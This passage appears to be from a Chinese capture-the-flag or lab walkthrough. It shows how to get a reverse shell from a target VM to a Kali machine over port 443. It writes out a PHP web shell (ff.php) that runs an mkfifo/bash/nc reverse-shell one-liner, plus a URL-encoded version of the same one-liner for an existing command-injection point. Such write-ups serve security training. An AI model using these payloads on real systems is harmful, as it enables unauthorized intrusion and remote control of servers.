 那么也就是，在靶机内，只要请求的外部资源是`443`端口的，就可以产生通信，也就是外部返回必须是`443`端口。

尝试在`kali`监听443端口，然后在靶机请求`kali`的443端口

因为之前测试，在蚁剑中是无法调用`sh`和`nc -e`的，那么可以通过写文件脚本，或者利用之前的命令执行链接进行反弹测试

## 获取反弹shell

比如这里在可访问的网站目录下，创建一个`php`脚本`ff.php`，然后在文件写入下面代码，为什么呢，因为测试多个，都没有反应

```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.2 443 >/tmp/f');?>
```

这时候，再通过浏览器访问这个脚本，以触发，即可反弹

![](./pic/22.jpg)

或者在之前默认的命令执行处，把上面的反弹`shell`代码进行一个编码处理，然后通过浏览器传参执行，也是可以的

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.2 443 >/tmp/f

#url编码处理
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.10.2%20443%20%3E%2Ftmp%2Ff
```

![](./pic/23.jpg)
